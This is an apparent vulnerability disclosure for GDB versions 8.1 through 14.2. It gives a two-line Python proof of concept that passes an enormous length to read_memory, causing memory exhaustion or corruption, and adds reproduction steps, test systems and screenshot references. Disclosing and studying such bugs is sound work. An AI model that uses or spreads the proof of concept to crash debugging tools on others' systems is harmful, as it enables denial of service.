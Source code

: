 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```

## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./img/1.png)

### run it and ctrl+c to stop it

![image-20240402211541005](./img/2.png)

### 3. source poc.py

![image-20240402211613585](./img/3.png)

![image-20240402212709525](./img/4.png)

### 4. in Ubuntu

![image-20240402212845142](/home/N1nE/CVEpwner/CVE2024/img/5.png)